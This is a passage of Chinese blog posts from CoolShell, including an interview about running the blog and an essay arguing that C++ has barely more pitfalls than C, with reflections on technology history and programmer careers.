如果要捋一个技术的脉络，70年代Unix的出现，是软件发展方面的一个里程碑，那个时期的C语言，也是语言方面的里程碑。（当时）所有的项目都在Unix/C上，全世界人都在用这两样东西写软件。Linux跟随的是Unix, Windows下的开发也是 C/C++。这时候出现的C++很自然就被大家接受了，企业级的系统很自然就会迁移到这上面，C++虽然接过了C的接力棒，但是它的问题是它没有一个企业方面的架构，而且太随意了，否则也不会有今天的Java。C++和C非常接近，它只不过是C的一个扩展，长年没有一个企业架构的框架。而Java在被发明后，被IBM把企业架构这部分的需求接了过来，J2EE的出现让C/C++捉襟见肘了，在语言进化上，还有Python/Ruby，后面还有了.NET，但可惜的是这只局限在Windows平台上。这些就是企业级软件方面语言层面就是C -> C++ -> Java这条主干，操作系统是Unix -> Linux/Windows这条主干，软件开发中需要了解的网络知识就是Ethernet -> IP -> TCP/UDP 这条主干。另外一条脉络就是互联网方面的（HTML/CSS/JS/LAMP…）。我是一个有技术忧虑症的人，这几条软件开发的主线一定不能放弃。

另外，从架构上来说，我们可以看到，


- 从单机的年代，到C/S架构（界面，业务逻辑，数据SQL都在Client上，只有数据库服库在S上）
- 再到B/S结构（用浏览器来充当Client，但是传统的ASP/PHP/JSP/Perl/CGI这样的编程也都把界面，业务逻辑，和SQL都放在一起），但是B/S已经把这些东西放到了Web Server上，
- 再到后来的中间件，把业务逻辑再抽出一层，放到一个叫App Server上，经典的三层结构。
- 然后再到分布式结构，业务层分布式，数据层分布式。
- 再到今天的云架构——全部移到服务器。

我们可以看到技术的变迁都一直再把东西往后端移，前端只剩一个浏览器或是一个手机。通过这个你可以看到整个技术发展的趋势。所以，如果你了解了这些变迁，了解了这些变迁过程“不断填坑”的过程，你将会对技术有很强的把握。

另外，我听到有很多人说，一些技术不适用，一些技术太学院派，但对我来说，无论是应用还是学术，我都会看，知识不愁多。何必搞应用的和搞学术的分开阵营，都是知识，学就好了。

技术的发展要根植于历史，而不是未来。不要和我描述这个技术的未来会多么美好（InfoQ 的 ArchSummit大会上有一个微软来的人把Node.js说得跟仙女一样，然后给了一个Hello World），我承认你用一些新的技术可以实现很多花哨的东西。但是，我认为技术都是承前的，只有承前的才会常青。所以说“某某（技术）要火”这样的话是没有意义的，等它火了、应用多了，规模大了，再说。有些人说：“不学C/C++也是没有问题的”，我对此的回应是：**如果连技术主干都可以不学的话，还有什么其他的好学呢？这些是计算机发展的根、脉络、祖师爷，这样的东西怎么可以不学呢？**

另外，我们要去了解整个计算机文化，我觉得计算机文化源起于Unix/C这条线上（注意，我说的是文化不是技术）。我也写过很多与Unix文化相关的文章，大家可以看看我写的“[Unix传奇](https://coolshell.cn/articles/2322.html)（[尤其是下篇](https://coolshell.cn/articles/2324.html)）”。

#### 可是在应用环境中，对新技术的需求是很高的，你觉得在教育领域计算机科学的侧重应该是什么样的？

学校教的大部分都是知识密集型的技术，但是社会上的企业大部分都是劳动密集型的。什么是劳动密集型的企业呢？麦当劳炸薯条就是劳动密集型的工作，用不到学校教授的那些知识。如果有一天你不炸薯条了，而要去做更大更专业的东西，学校里的知识就会派上用场。有人说一个语言、一个技术，能解决问题能用就行了，我不这样认为。**我觉得你应该至少要知道这些演变和进化的过程。而如果你要解决一些业务和技术难题，就需要抓住某种技术很深入地学习，当成艺术一样来学习。**

我在“[软件开发‘三重门’](https://coolshell.cn/articles/6526.html)”里说过，第一重门是业务功能，在这重门里，的确是会编程就可以了；第二重门是业务性能，在这一重门里，技术的基础就很管用了，比如：操作系统的文件管理，进程调度，内存管理，网络的七层模型，TCP/~~UCP~~UDP的协议，语言用法、编译和类库的实现，数据结构，算法等等就非常关键了；第三重门是业务智能，在这一重门里，你会发现很多东西都很学院派了，比如，搜索算法，推荐算法，预测，统计，机器学习，图像识别，分布式架构和算法，等等，你需要读很多计算机学院派的论文。

总之，这主要看你职业生涯的背景了，如果你整天被当作劳动力来使用，你用到的技术就比较浅，比较实用，但是如果你做一些知识密集型的工作，你就需要用心来搞搞研究，就会发现你需要理论上的知识。比如说，我之前做过的跨国库存调配，需要知道最短路径的算法，而我现在在亚马逊做的库存预测系统，数据挖掘的那些东西都需要很强的数学建模、算法、数据挖掘的功底。

我觉得真正的高手都来自知识密集型的学院派。他们更强的是，可以把那些理论的基础知识应用到现在的业务上来。但很可惜，**我们国内今天的教育并没有很好地把那些学院派的理论知识和现实的业务问题很好地接合起来。**比如说一些哈希表或二叉树的数据结构，如果我们的学校在讲述这些知识的时候能够接合实际的业务问题，效果会非常不错，如：设计一个IP地址和地理位置的查询系统，设计一个分布式的NoSQL的数据库，或是设计一个地理位置的检索应用等等。在学习操作系统的时候，如果老师可以带学生做一个手机或嵌入式操作系统，或是研究一下Unix System V或是Linux的源码的话，会更有意思。在学习网络知识的时候，能带学生重点学一下以太网和TCP/IP的特性，并调优，如果能做一个网络上的pub/sub的消息系统或是做一个像Nginx一样的web server，那会更好。如果在学图形学的过程中能带领学生实践一个作图工具或是一个游戏引擎，那会更有意思。

总之，我们的教育和现实脱节太严重了，教的东西无论是在技术还是在实践上都严重落后和脱节，没有通过实际的业务或技术问题来教学生那些理论知识，这是一个失败。

#### **那么，现在做一个软件开发者是否更加困难了？**

我觉得倒不是。做一个软件开发者更简单了。因为现在互联网很发达，你可以找到很多共享的知识——相对于我那个时候。第一，知识你容易查到，然后社区很多，文章、分享的人也越来越多。我们那个时候没有的。上网一查，什么都没有。都得去自己琢磨，自己去调查。所以我觉得相比我们那个时候更容易了。第二，工具变多了。现在的工具比那个时候好用多了。我们那个时候就是一天到晚在vi里面，连个自动提示都没有，连个版本库管理都没有。不光工具变多，框架也多了，各种各样的编程框架。我们那时候都是生写。写JavaScript，生写，连个jQuery都没有。没有这些辅助性的、让你提高生产力的东西。J2EE那时候也没有。而且整个（开发环境）都很不成熟。一个服务器的最高配置就1GB的情况下，一个WebSphere起来就占了900多MB——这还能跑什么应用？所以只能去用最基础的系统。所以我觉得现在，无论是环境，还是开发的过程，都更规范了。以前我做开发的时候就是，什么都不懂就上了，瞎搞，没有什么开发规范，没有人理你，反正你搞得好就搞好，搞不好就搞不好了，全靠自己，包括做测试维护等等。我觉得现在的软件开发就很好，你一上去，就有好的工具，有好的知识库，有好的社区，有好的开发框架，还有好的流程，方法，甚至还有人帮你做测试，还有人告诉你应该怎么做。幸福得很。现在好多人还说这个不好那个不好，开发难什么的。其实容易多了。

但是，有个东西我觉得是现在的软件开发者比我们那时候变得更难的。就是，你享福了以后，人就变懒，变娇气了。对很多东西的抱怨就开始多了。我们那个时候哪有什么好抱怨的？没啥好抱怨的，有活就干，有东西学就赶快学。现在呢，学个什么东西还挑挑拣拣的，抱怨这个语言太扯，那个IDE不好，这个框架太差，版本管理工具太扯，等等。**这就好像以前我没东西吃，只有个糠吃，要是有面包有馒头，我就觉得非常非常好了。现在是，好吃的东西多了我们还学会挑食了，这也不好用，那也不好用**。

根本就不是技术变难了，环境变差了，是程序员变娇气了。所以软件开发变难，归根结底还是程序员们自己变娇气了。

#### 你如何在进度压力下，享受技术带来的快乐？

中国人中庸的思想，入世和出世，每天的工作就是入世。举个例子，我十年前在上海的时候，给交通银行做项目的时候，每周休息一天，早九点到晚十点，每天工作12个小时，这样的工作持续了一整年，没有节假日，项目上的技术也没什么意思。当时我晚上十点回到住处，还想学一些C++/Java和Unix/Windows的技术，于是就看书到晚上11:30，每天如此，一年下来学到很多东西，时间没有荒废，心里就很开心。**我觉得当时是快乐的，因为有成长的感觉是快乐的。**

现在的我，工作、写博客、养孩子，事情其实更多。我早上7:30起床，会浏览一下国外的新闻，hacker news, tech church, reddit, highavailability之类的站点，9点上班。晚上6、7点钟下班，开始带孩子。十点钟孩子睡了觉，我会开始重新细读一下这一天都发生了些什么事情。这个时间也有可能会用来看书。学习的过程（我）是不喜欢被打断的，所以从十点到十二点，家人都睡了，这正是我连续学习的好时间。可能从晚上11:30开始，我会做点笔记或者写博客。我现在对酷壳文章的质量要求比较高一些，所以大概积累一个星期的时间才可以生成一篇文章。每天我大概都在一两点钟才会睡觉。没办法，我有技术焦虑症。但是觉得这样的生活很充实，也很踏实。

另外，任何一门技术玩深了，都是很有意思的。有些人形成了一个价值取向，“我只做什么，绝不做什么”。前段时间有一个刚来亚马逊的工程师，他原来做的是数据挖掘推荐系统，原来的公司重组要让他做前端，他不肯就离职了，他说他不想做前端。我觉得，前端后端都是编程，Javascript是编程，C++也是编程。**编程不在于你用什么语言去coding，而是你组织程序、设计软件的能力，只要你上升到脑力劳动上来，用什么都一样，技术无贵贱。**你可以不喜欢那个技术，但是还是要了解了解，也没有必要完全不用，完全抛弃。Javascript啊——只要能被Javascript实现的，未来总有一天会被Javascript所取代。

回到问题，怎么才能享受到快乐呢？

- 第一，入世和出世要分开，不要让世俗的东西打扰到你的内心世界，你的情绪不应该为别人所控，也不应该被世俗所污染，活得真实，活得真实你才会快乐。

- 第二，就是要有热情，有了热情，你的心情就会很好，加班都可以是快乐的，想一想我们整个通宵用来打游戏的时光，虽然很累，但是你也很开心，这都是因为有了热情的缘故。

总之一句话——**如果你没有兴趣，什么都是借口，如果你有兴趣了，什么都是好玩的**。

# INFOQ的ARCHSUMMIT大会对我的采访

#####  [2012年08月12日 ](https://coolshell.cn/articles/8031.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [66 条评论](https://coolshell.cn/articles/8031.html#comments) 26,794 人阅读


偷个懒，做个更新，今天下午InfoQ的ArchSummit对我的一些采访。我整理了一下，算做是我个人写酷壳的一些想法和总结。不过问我的这些问题并不尖锐，呵呵，不像[@图灵谢工](http://weibo.com/stonemama) 问我的问题：“你的价值观太过理想，根本不现实，你站在道德的高点拷问社会，是不是想炒作自己？”。

**1) 作为酷壳的博主，请您大概介绍下酷壳是什么时候开始的，初衷是什么 ？**

我写blog是从2002年开始（那时还没有blog这个词），当时对我来说，没有自己的电脑，上网很不方便，而我有写学习笔记的习惯，读书和工作中学到的一些东西需要保存在某个地方，我希望这个地方可以让我在任何地方都可以调出来看看（因为我当时的工作出差太多），正好当时的CSDN有个“专家专栏”的功能，也就是后来出现的blog。

后来Blog出现后，CSDN把自己的“专家专栏”全部迁移到了blog.csdn.net上，07-08年这段时间，CSDN的blog基本上是不能使用，性能差得不能再差，每天宕机，上传图片，贴代码，都非常不好用。也许，这就是使用.NET/Windows平台的问题（开个玩笑）。

我是从2009年3月开始创建酷壳的，创建的初衷如下：

- 我需要一个更稳定，更方便的地方，我的博客的风格不会被大众的风格所掩盖的地方。
- 我的从事新闻的老婆很不待见[我在CSDN的博客](http://blog.csdn.net/haoel)，她觉得太技术，书呆子。
- 我正好看到了煎蛋这个国外娱乐新闻文摘的blog，而我正好每天会有2个小时阅读国外社区的东西。

基于上述三个原因，我自己花了4500元/年租了个主机，建了酷壳。所以，这也是你一开始看到酷壳基本上是娱乐性比较强的博客，我收集一些比较有意思的程序员中发生的事情，也收集一各式各样的程序员圈子里的各处观点。

我当时的想法是，一些特别技术的东西，我会和CSDN同步，而一些轻松的话题，我会放在酷壳。我当时的初衷就是想说明程序员并不是一个木纳、书呆子、不食人间烟火、巨无趣的一个群体，程序员圈子里同样也有很多有趣的东西。所以，你可以看到11年初以前的东西我有很多网络恶搞式乱调侃的语言。


但到了2011年初让我开始让我有些转变，主要是读者越来越多，而且，有一些人已经把酷壳当成了一个提升自己能力和、开阔眼界、甚至需要指导的地方，我的压力就这样来了，这种压力让我开始不能太娱乐，因为有一些人是很认真地在看酷壳的文章，在期待能从酷壳获得有价值的东西……

**2）技术人员的个人博客不胜其数，但真正可以吸引人眼球的并不多，能谈谈成功运营一个个人博客的精髓是什么？**

哪有什么运营，完全是顺其自然，误打误撞。

是的，技术人员的博客太多了，酷壳并不是技术最好的，也不是资讯最好的。淘宝的很多技术团队的博客都很不错，还有阮一峰的博客，还有各种各样的如CSDN，博客园，51CTO，ZDNET这样的社区。所以，我需要做点不一样的，而且我觉得还有一些这些社区和博客都还没有涉及的地方。

对于社区最大的问题就是，他们就像我们学校里的学生一样，喜欢大量地收获聚集文章和知识，填鸭式的网站，网站的编辑不懂技术。对于一些技术博客的问题并不是他们不懂技术，而是太过技术，只有技术，少了一些程序员的文化，观点和视野。

程序员是一个圈子，一个小社会，这个圈子里并不只有技术和知识，还有很多很多的东西，例如：程序员们都说自己比较辛苦，都说自己没有得到足够的尊重，还有一些如敏捷，流程，产品等地方程序员的观点没有得到表达，还有一些程序员这个社区内比较特有的东西，比如：编程语言之争，这本是一个很好的话题，是程序员圈子里的文化，但是每次讨论都是骂来骂去的，需要有人去引导程序员，带领他们用正确的价值观去看待和思考这些东西。

这就是酷壳和其它博客和社区不一样的地方，我关注的并不只有技术，还有程序员的文化和想法，并且输出一些或偏执或鲜明或个人或激进的价值观，无论怎么样，你认同也好，不认同也可以，你可以看到酷壳和我还有酷壳里的讨论都是真实的。

**3）根据你博客的自我介绍，想从纯底层技术方向转型为业务技术方向，让你产生这种想法的最大原因是什么？**

纯底层做得太多了，有些书呆子了，与人打交道有问题了，而且觉得地底有点不识人间烟火了，我想知道用户是怎么用我们的产品的，我想知道用户是怎么想的，整天在那调网络性能，调系统性能，搞多线程，搞内存漏洞，整天在矿道里打洞， 想出来见见天日。呵呵。

但这并不代码我觉得业务和用户要比技术有用得多，也并不是说技术无用论。

我觉得这就好像一颗大树，这些底层的技术，可以让你站得非常非常稳，可以让你抵御洪灾和暴风，但是如果你想伸长得更高更广，你还是需要地面上的枝叶。我觉得我的底层知识够深入了，我需要了解业务知识和用户，因为我不但想站得稳，扎得深，我也想伸得高。

**4）酷壳产出文章是怎么样的频率？每篇博文 ，你大概需要多少时间？**

我每天都有阅读的习惯，尤其是阅读网文，每天两个小时，而且我是一个爱思考的人，思考的对不对不一定，但是我很喜欢去思考。现在又上了微博和一些朋友互动，也会引发我的一些思考，所以，文章就是在阅读、交流和思考中产生的。

2011年初以前，平均每周3篇，有时候一周有10篇，现在基本上每周一篇。以前的文章花不了太多时间 ，因为比较娱乐，现在的文章很花时间，比如《程序员练级攻略》花了我四周的时间 ，《性能调优攻略》花了我三周多的时间，基本上来说，现在的文章至少也要花我1-2天的时间。我想把文章的数量降下来，这样，我可以思考得更好更透彻一些，这样文章里的营养更多一些。

**5）是不是可以给年轻的朋友，或是风刚从事软件开发工作的朋友，一些职业发展的建议？**

主要是下面几点：

- 不要追新技术，应该多看看那些经历了很长时间的常青的技术。

- 多研究一下历史，和技术的演进，这样你才能知道技术的未来。今天的很多东西都在过去有身影，如：今天的移动端和云端架构和以前的Unix和终端的关系，还有管道，和Unix设计的哲学也在今天Service Interface式的设计中有得到传承，等等。

- 我可以急功近利以解决问题和追赶技术潮流，但是，如果你需要成为一个领域的专家，你需要非常非常注重基础。速成编程的方式只能让你成为劳动力，而不能成为工匠或技术和知识的驾驭者。

- 不要被产商的文化所主导了，多看看社区的文化，尤其是Unix/C的文化，这是计算机文化的根（参看我写过的《[Unix传奇](https://coolshell.cn/articles/2322.html)》）

- 注重基础，广度是深度是副产品。

**6）以你过往的经历，你是如何看待“架构师”这个角色的？他的义务是如何分配的？**

架构就是Design一个部分，就是软件设计的一块，软件设计最重要的有两点：

- 业务功能性需求分析和非功能性需求分析，
- 技术基础的深刻认识，需要有非常丰富的经验。

试问一下，程序员做软件不需要设计吗？做设计不需要设计架构吗？很自然的，今天的工程师，程序员已经在做架构设计上的事了。所以，我觉得架构设计这个工作本就是程序员（或者说是高级程序员）工作的一部分。

但是，我个人认为架构师在某些情况下也还是需要的，但其应该是对业务和技术都很熟悉的人，并且偏技术，也要写代码的人。在一些公司，上下一盘棋，的确需要对总体架构设计，并保证这个框架能够被各个工程团队贯彻实现的那么一个团队，但他们应该更多地深入到一线工程团队的。

所以，我觉得架构师就是一个高级程序员，而不是一个拍脑袋，关说不练的人。

这点，看看Linux的架构师团队就知道了，一样的需要写代码，fix-bug，一样地需要了解各个公司对linux提出的各种各样的需求。

**7）现阶段酷壳的文章，都是你一个人写的吗？是否有其他同仁加入写作？**

并不都是我一个人写的，我希望酷壳是大家一起来写的，事实上也有一些人写，只是不多。只是我个人的色彩过重了一些，我的个性压制了众性。

（不过，我真的无法自证都是我写的，我有没有团队，呵呵，管它有没有团队，是不是人代写，重要的是那些文章的内容是否对大家有帮助，或是对社区有贡献。；））

**8）你对酷壳未来的构想是什么？还是一个技术交流的平台吗？**

对于酷壳来说，其文化和价值观比较重一些，短期内，还是以我个人色彩为主一些，虽然我希望这是一个大家都能来分享的地方。前段时间我有个想法想做一个“程序员疫苗站”，就像我们一出生时接种的各种疫苗可以让我们抵抗各种病毒一样，这个网站可以让程序员接种一些犯低级错误的疫苗，从而对这些低级错误有抵抗。我还没有想得特别清楚，不过方向基本上是这个方面的。

（全文完）

# C++的坑真的多吗？

#####  [2012年08月06日 ](https://coolshell.cn/articles/7992.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [236 条评论](https://coolshell.cn/articles/7992.html#comments) 165,053 人阅读

先说明一下，我不希望本文变成语言争论贴。希望下面的文章能让我们客观理性地了解C++这个语言。（另，我觉得技术争论不要停留在非黑即白的二元价值观上，这样争论无非就是比谁的嗓门大，比哪一方的观点强，毫无价值。我们应该多看看技术是怎么演进的，怎么取舍的。）

目录


[事由](https://coolshell.cn/articles/7992.html#事由)[C++真的比C差吗？](https://coolshell.cn/articles/7992.html#C真的比C差吗？)[C++的坑有多少？](https://coolshell.cn/articles/7992.html#C的坑有多少？)[C++的初衷](https://coolshell.cn/articles/7992.html#C的初衷)[我对C++的感情](https://coolshell.cn/articles/7992.html#我对C的感情)[C++的未来](https://coolshell.cn/articles/7992.html#C的未来)[总结](https://coolshell.cn/articles/7992.html#总结)

#### 事由

周五的时候，我在我的微博上发了一个贴说了一下一个网友给我发来的C++程序的规范和内存管理写的不是很好（后来我删除了，因为当事人要求），我并非批判，只是想说明其实程序员是需要一些“疫苗”的，并以此想开一个“程序员疫苗的网站”，结果，@简悦云风同学[直接回复到](http://weibo.com/2388714105/yvqWKkcGV)：“**不要用 C++ 直接用 C , 就没那么多坑了。**”就把这个事带入了语言之争。

我又[发了一条微博](http://weibo.com/1401880315/yvrMMsCuT)：

[@左耳朵耗子](http://weibo.com/1401880315/profile) [](http://verified.weibo.com/verify)： 说C++比C的坑更多的人我可以理解，但理性地思考一下。C语言的坑也不少啊，如果说C语言有90个坑，那么C++就是100个坑（另，**我看很多人都把C语言上的坑也归到了C++上来**），但是C++你得到的东西更多，封装，多态，继承扩展，泛型编程，智能指针，……，你得到了500%东西，但却只多了10%的坑，多值啊。

结果引来了更多的回复（只节选了一些言论）：

- @淘宝褚霸[也在微博里说](http://weibo.com/1915508822/yvshunX41)：“自从5年前果断扔掉C++，改用了ansi c后，我的生活质量大大提升，没有各种坑坑我。”

- @Laruence[在其微博里](http://weibo.com/1170999921/yvsgisAgB)说: “我确实用不到, C语言灵活运用struct, 可以很好的满足这些需求.//@左耳朵耗子: 封装，继承，多态，模板，智能指针，这也用不到？这也学院派？//@Laruence: 问题是, 这些东西我都用不到… C语言是工程师搞的, C++是学院派搞的”

**那么，C++的坑真的多么？我还请大家理性地思考一下**。


#### C++真的比C差吗？

我们先来看一个图——《[各种程序员的嘴脏的对比](https://coolshell.cn/articles/1850.html)》，从这个图上看，C程序员比C++的程序员在注释中使用fuck的字眼多一倍。这说明了什么？**我个人觉得这说明C程序员没有C++程序员淡定**。


不要太纠结上图，只是轻松一下，我没那么无聊，让我们来看点真正的论据。

相信用过C++的程序员知道，C++的很多特性主要就是解决C语言中的各种不完美和缺陷：（注：**C89、C99中许多的改进正是从C++中所引进的**）

- 用namespace解决了很C函数重名的问题。

- 用const/inline/template代替了宏，解决了C语言中宏的各种坑。

- 用const的类型解决了很多C语言中变量值莫名改变的问题。

- 用引用代替指针，解决了C语言中指针的各种坑。这个在Java里得到彻底地体现。

- 用强类型检查和四种转型，解决了C语言中乱转型的各种坑。

- 用封装（构造，析构，拷贝构造，赋值重载）解决了C语言中各种复制一个结构体（struct）或是一个数据结构（link, hashtable, list, array等）中浅拷贝的内存问题的各种坑。

- 用封装让你可以在成员变量加入getter/setter，而不会像C一样只有文件级的封装。

- 用函数重载、函数默认参数，解决了C中扩展一个函数搞出来像func2()之类的ugly的东西。

- 用继承多态和RTTI解决了C中乱转struct指针和使用函数指针的诸多让代码ugly的问题。

- 用RAII，智能指针的方式，解决了C语言中因为出现需要释放资源的那些非常ugly的代码的问题。

- 用OO和GP解决各种C语言中用函数指针，对指针乱转型，及一大砣if-else搞出来的ugly的泛型。

- 用STL解决了C语言中算法和数据结构的N多种坑。

（注意：上面我没有提重载运算符和异常，前者写出来的代码并不易读和易维护（参看《[恐怖的C++语言](https://coolshell.cn/articles/1724.html)》后面的那个示例），坑也多，后者并不成熟（相对于Java的异常），但是我们需要知道try-catch这种方式比传统的不断地判断函数返回值和errno形成的大量的if-else在代码可读性上要好很多）

上述的这些东西填了不知有多少的C语言编程和维护的坑。**少用指针，多用引用，试试autoptr，用用封装，继承，多态和函数重载…… 你面对的坑只会比C少，不会多。**

#### C++的坑有多少？

C++的坑真的不多，如果你能花两到三周的时候读一下《[Effecitve C++](http://book.douban.com/subject/1231590/)》里的那50多个条款，你就知道C++里的坑并不多，而且，有很多条款告诉我们C++是怎么解决C的坑的。然后，你可以读读《[Exceptional C++](http://book.douban.com/subject/1967356/)》和《[More Exceptional C++](http://book.douban.com/subject/1244943/)》，你可以了解一下C++各种问题的解决方法和一些常见的经典错误。

当然，C++在解决了很多C语的坑的同时，也因为OO和泛型又引入了一些坑。消一些，加一些，我个人感觉上总体上只比C多10%左右吧。但是你有了开发速度更快，代码更易读，更易维护的500%的利益。

另外，不可否认的是，C++中的代码出了错误，有时候很难搞，而且似乎用C++的人会觉得C++更容易出错？我觉得主要是下面几个原因：

- **C和C++都没学好，大多数人用C++写C，所以，C的坑和C++的坑合并了。**

- ***\*C++太灵活了，想怎么搞就怎么搞，所以，各种不经意地滥用和乱搞。\****

另外，C++的编译对标准C++的实现各异，支持地也千差万别，所以会有一些比较奇怪的问题，但是如果你一般用用C++的封装，继承，多态，以及namespace，const, refernece,  inline, templete, overloap, autoptr，还有一些OO 模式，并不会出现奇怪的问题。

而对于STL中的各种坑，我觉得是程序员们还对GP（泛型编程）理解得还不够，STL是泛型编程的顶级实践！属于是大师级的作品，一般人很难理解。必需承认STL写出来的代码和编译错误的确相当复杂晦涩，太难懂了。这也是C++的一个诟病。

这和[Linus说的一样](https://coolshell.cn/articles/1724.html) —— “**C++是一门很恐怖的语言，而比它更恐怖的是很多不合格的程序员在使用着它**”。注意我飘红了“**很多不合格的程序员**”！

我觉得C++并不适合初级程序员使用，C++只适合高级程序员使用（参看《[21天学好C++](https://coolshell.cn/articles/2250.html)》和《[C++学习自信心曲线](https://coolshell.cn/articles/2287.html)》），正如《[Why C++](https://coolshell.cn/articles/6548.html)》中说的，C++适合那些对开发维护效率和系统性能同时关注的高级程序员使用。

**这就好像飞机一样，开飞机很难，开飞机要注意的东西太多太多，对驾驶员的要求很高，但你不能说飞机这个工具很烂，开飞机的坑太多。**（注：我这里并不是说C++是飞机，C是汽车，C++和C的差距，比飞机到汽车的差距少太多太多，这里主要是类比，我们对待C++语言的心态！）

#### C++的初衷

理解C++设计的最佳读本是《[C++演化和设计](http://book.douban.com/subject/1096216/)》，在这本书中Stroustrup说了些事：

1）Stroustrup对C是非常欣赏，**实际上早期C++许多的工作是对于C的强化和净化**，并把完全兼容C作为强制性要求。C89、C99中许多的改进正是从C++中所引进。可见，Stroustrup对C语言的贡献非常之大。**今天不管你对C++怎么看，C++的确扩展和进化了C，对C造成了深远的影响**。

2）Stroustrup对于C的抱怨主要来源于两个方面——在C++兼容C的过程中遇到了不少设计实现上的麻烦；以及守旧的K&R C程序员对Stroustrup的批评。**很多人说C++的恶梦就是要去兼容于C，这并不无道理（**Java就干的比C++彻底得多**）**，但这并不是Stroustrup考虑的，Stroustrup一边在使尽浑身解数来兼容C，另一方面在拼命地优化C。

3）Stroustrup在书中直接说，C++最大的竞争对手正是C，他的目的就是——**C能做到的，C++也必须做到，而且要做的更好**。大家觉得是不是做到了？有多少做到了，有多少还没有做到？

4）对于同时关注的运行效率和开发效率的程序员，Stroustrup多次强调C++的目标是——“**在保证效率与C语言相当的情况下，加强程序的组织性；能保证同样功能的程序，C++更短小**”，**这正是浅封装的核心思想**。而不是过渡设计的OO。（参看：[面向对象是个骗局](https://coolshell.cn/articles/3036.html)）

5）这本书中举了很多例子来回应那些批评C++有运行性能问题的人。C++在其第二个版本中，引入了虚函数机制，这是C++效率最大的瓶颈了，但我个人认为虚函数就是多了一次加法运算，但让我们的代码能有更好的组织，极大增加了程序的阅读和降底了维护成本。（注：Lippman的《[深入探索C++对象模型](http://book.douban.com/subject/1091086/)》也说明了C++不比C的程序在运行性能低。Bruce的《[Think in C++](http://book.douban.com/subject/1057170/)》也说C++和C的性能相差只有5%）

6）这本书中还讲了一些C++的痛苦的取舍，印象最深的就是多重继承，提出，拿掉，再被提出，反复很多次，大家在得与失中不断地辩论和取舍。这个过程让我最大的收获是——a) **对于任何一种设计都有好有坏，都只能偏重一方**，b) **完全否定式的批评是不好的心态，好的心态应该是建设性地批评**。

#### 我对C++的感情

我先说说我学C++的经历。

我毕业时，是直接从C跳过C++学Java的，但是**学Java的时候，不知道为什么Java要设计成这样，只好回头看C++，结果学C++的时候又有很多不懂，又只得回头看C**，**最后发现，C -> C++ -> Java的过程，就是C++填C的坑，Java填C++的坑的过程**。

注，下面这些东西可以看到Java在填C/C++坑：

- Java彻底废弃了指针（指针这个东西，绝对让这个社会有几百亿的损失），使用引用。
- Java用GC解决了C++的各种内存问题的诟病，当然也带来了GC的问题，不过功大于过。
- Java对异常的支持比C++更严格，让编程更方便了。
- Java没有像C++那样的template/macro/函数对象/操作符重载，泛型太晦涩，用OO更容易一些。
- Java改进了C++的构造、析构、拷贝构造、赋值。
- Java对完全抛弃了C/C++这种面向过程的编程方式，并废弃了多重继承，更OO（如：用接口来代替多重继承）
- Java比较彻底地解决了C/C++自称多年的跨平台技术。
- Java的反射机制把这个语言提升了一个高度，在这个上面可以构建各种高级用法。
- C/C++没有一些比较好的类库，比如UI，线程 ，I/O，字符串处理等。（C++0x补充了一些）
- 等等……

当然时代还在前进，这个演变的过程还在C#和Go上体现着。不过我学习了C -> C++  -> Java这个填坑演进的过程，让我明白了很多东西：

- 我明白了OO是怎么一回事，重要的是明白了OO的封装，继承，和多态是怎么实现的。（参看我以前写过的《[C++虚函数表解析](https://coolshell.cn/articles/12165.html)》和《[C++对象内存布局](https://coolshell.cn/articles/12176.html)》）
- 我明白了STL的泛型编程和Java的各种花哨的技术是怎么一回事，以及那些很花哨的编程方法和技术。
- 我明白了C，C++，Java的各中坑，这就好像玩火一样，我知道怎么玩火不会烧身了。

**我从这个学习过程中得到的最大的收获不是语言本身，而是各式各样的编程技术和方法，和技术的演进的过程，这比语言本身更重要**！（**在这个角度上学习，你看到的不是一个又一个的坑，你看到的是——各式各样让你可以爬得更高的梯子**）

我对C++的感情有三个过程：先是喜欢地要死，然后是恨地要死，现在的又爱又恨，爱的是这个语言，恨的是很多不合格的人在滥用和凌辱它。

#### C++的未来

C++语言发展大概可以分为三个阶段（[摘自Wikipedia](https://zh.wikipedia.org/wiki/C%2B%2B)）：

- 第一阶段从80年代到1995年。这一阶段C++语言基本上是传统类型上的面向对象语言，并且凭借著接近C语言的效率，在工业界使用的开发语言中占据了相当大份额；
- 第二阶段从1995年到2000年，这一阶段由于标准模板库（STL）和后来的Boost等程式库的出现，泛型程式设计在C++中占据了越来越多的比重性。当然，同时由于Java、C#等语言的出现和硬件价格的大规模下降，C++受到了一定的冲击；
- 第三阶段从2000年至今，由于以Loki、MPL等程式库为代表的产生式编程和模板元编程的出现，C++出现了发展历史上又一个新的高峰，这些新技术的出现以及和原有技术的融合，使C++已经成为当今主流程式设计语言中最复杂的一员。

在《[Why C++? 王者归来](https://coolshell.cn/articles/6548.html)》中说了 ，性能主要就是要省电，省电就是省钱，在数据中心还不明显，在手机上就更明显了，这就是为什么Android 支持C++的原因。所以，在NB的电池或是能源出现之前，**如果你需要注重程序的运行性能和开发效率，并更关注程序的运性能，那么，应该首选 C++**。这就是iOS开发也支持C++的原因。


今天的C++11中不但有更多更不错的东西，而且，还填了更多原来C++的坑。（参看：[C++11 Wiki](https://zh.wikipedia.org/wiki/C%2B%2B11)，[C++ 11的主要特性](https://coolshell.cn/articles/5265.html)）

 

#### **总结**

- **C++并不完美，但学C++必然让你受益无穷。**

- **是那些不合格的、想对编程速成的程序员让C++变得坑多。**

最后，非常感谢能和“**@简悦云风**”，“**@淘宝诸霸**”，“**@Laruence**”一起讨论这个问题！无论你们的观点怎么样，我都和你们“在一起”，嘿嘿嘿……

(全文完)